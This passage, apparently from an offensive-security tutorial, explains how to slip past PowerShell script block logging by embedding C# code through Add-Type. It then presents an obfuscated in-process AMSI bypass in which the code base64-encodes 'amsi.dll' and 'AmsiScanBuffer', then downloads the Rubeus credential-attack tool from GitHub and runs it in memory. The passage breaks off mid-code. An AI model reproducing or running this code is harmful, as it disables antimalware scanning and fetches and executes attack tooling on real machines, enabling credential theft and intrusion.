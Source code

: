 Larger organizations often deploy a SIEM such as Splunk and enable script block logging. Script block logging captures a wide array of activities, including the execution of cmdlets, functions, expressions, pipeline operations, variable assignments, control flow statements, error handling, interactive sessions, external scripts, remote PowerShell sessions, scheduled tasks, event handlers, and module loading. These activities are logged if they are enclosed within curly braces {}. This effectively renders the AMSI bypass script and the invoke-mimikatz script ineffective.

It's important to note that if an organization has Splunk and the capability to perform automated monitoring of PowerShell code within script blocks, they likely have an EDR solution enabled as well. There is indeed a workaround for script block logging, which involves utilizing Add-Type and embedding C# code blocks.

With the below example, it will log the execution of Add-Type and the invocation of the Main method for the compiled C# class. The log would resemble something like the following:

```yaml 
Provider Name: Microsoft-Windows-PowerShell
Event ID: 4104
Script Block ID: xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx
Path: 
Message:
- Executing Add-Type with C# code
- Invoking the Main method of the compiled C# class
```

For the demonstration of using embedded C# code blocks, I'll be using an In-Process Patchless AMSI Bypass. This process entails setting a hardware breakpoint on the AmsiScanBuffer function, employing a vectored exception handler to alter AMSI scan results, and modifying the CPU's debug registers to control the execution flow.

I've converted this implementation from [https://gist.githubusercontent.com/susMdT/360c64c842583f8732cc1c98a60bfd9e/raw/fd9a00317decf8afd647e0f770fec5ba6e2f89f5/Program.cs](https://gist.githubusercontent.com/susMdT/360c64c842583f8732cc1c98a60bfd9e/raw/fd9a00317decf8afd647e0f770fec5ba6e2f89f5/Program.cs) into a PowerShell script, along with adding a few obfuscation techniques. Here's the code:


```powershell
$cs = @'
using System;
using System.Net;
using System.Reflection;
using System.Text;
using System.Runtime.InteropServices;

namespace Test
{
    public class Program
    {
        static IntPtr baser = WinAPI.LoadLibrary(Encoding.UTF8.GetString(Convert.FromBase64String("YW1zaS5kbGw=")));
        static IntPtr addr = WinAPI.GetProcAddress(baser, Encoding.UTF8.GetString(Convert.FromBase64String("QW1zaVNjYW5CdWZmZXI=")));
        // Allocate memory for the CONTEXT64 structure
        static IntPtr pCtx = Marshal.AllocHGlobal(Marshal.SizeOf<WinAPI.CONTEXT64>());

        public static void Main()
        {
            SetupBypass();

            // Configure security protocol and load external assembly
            ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
            var sb = Assembly.Load(new WebClient().DownloadData("https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe"));
            sb.EntryPoint.Invoke(null, new object[] { new string[] { "" } });
            Console.WriteLine("Assembly FullName: " + sb.FullName);
        }

```